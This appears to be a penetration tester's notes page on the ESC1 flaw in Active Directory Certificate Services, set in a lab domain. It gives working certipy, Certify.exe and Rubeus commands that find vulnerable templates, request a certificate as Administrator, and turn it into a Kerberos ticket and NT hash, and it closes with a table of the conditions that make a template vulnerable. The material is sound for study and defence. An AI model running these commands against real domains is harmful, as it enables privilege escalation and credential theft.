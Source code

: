 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC1

Vulernability lies in the possibility to specify an alternate user in the certificate request. If the certificate templates allows including a `subjectAltName` (`SAN`) from another use than from the user making the ceritificate request, we can use any user.

```bash
# Find vulnerabilities
certipy-ad find -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout

# Showing
[!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication 
```

### <mark style="color:yellow;">ESC1 from Linux</mark>

To abuse the ESC1 template we can use certipy to request a Certificate and include a alternate subject. This is done with `req` and `-upn Administrator` (or any other user.&#x20;

```bash
certipy req -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -ca lab-LAB-DC-CA -template ESC1 -upn Administrator
```

#### Authenticate with certificate and get a TGT

```
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199
```

### <mark style="color:yellow;">ESC1 Abuse from Windows</mark>

#### Enumeration with Certify.exe

```powershell
# Certify
.\Certify.exe find /vulnerable

# ADCS Enumeration
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
```

#### Convert certificate and get NT hash

```powershell
# Request wilt alternate SAN
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC1 /altname:administrator@lab.local

# With OpenSSL convert certificate to pfx from cert.pem
.& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Authenticate with certificate
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrap
```

## Concluding

ESC 1 misconfiguratin is specifying an alternate user in the certificate request by alloowing to including a `subjectAltName` (`SAN)` .&#x20;

#### What makes it vulnerable to ESC1?

| Object                        | Value                        |
| ----------------------------- | ---------------------------- |
| Enrollment Rights             | Like: LAB.LOCAL\Domain Users |
| Requires Manager approval     | False                        |
| Authorized Signature Required | 0                            |

{% hint style="info" %}
An other group than domain users may have enrollment rights which we could me member of.
{% endhint %}

Request certificate with different UPN, then authenticate with the .pfx file giving a NT hash and a TGT.
